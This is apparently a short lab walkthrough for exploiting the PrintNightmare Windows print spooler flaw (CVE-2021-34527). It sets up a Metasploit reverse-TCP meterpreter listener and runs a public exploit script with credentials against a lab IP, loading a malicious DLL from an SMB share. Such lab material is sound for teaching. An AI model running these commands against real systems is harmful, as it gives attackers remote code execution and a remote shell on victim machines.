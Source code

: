 **Setup Metasploit**
```bash
sudo msfconsole
use multi/handler
set payload windows/x64/meterpreter/reverse_tcp
```
### Set LHOST and LPORT
![setting up metasploit](images/metasploit_setup.png)


**Start Exploit**
### Run the exploit by https://github.com/nemo-wq/PrintNightmare-CVE-2021-34527
![git cloning the exploit](images/git_clone_exploit.png)
```bash
sudo python3 CVE-2021-34527.py WORKGROUP/student:”student”@192.168.204.130 '\\192.168.204.139\share\evil.dll'
```

![running the exploit](images/running_exploit.png)

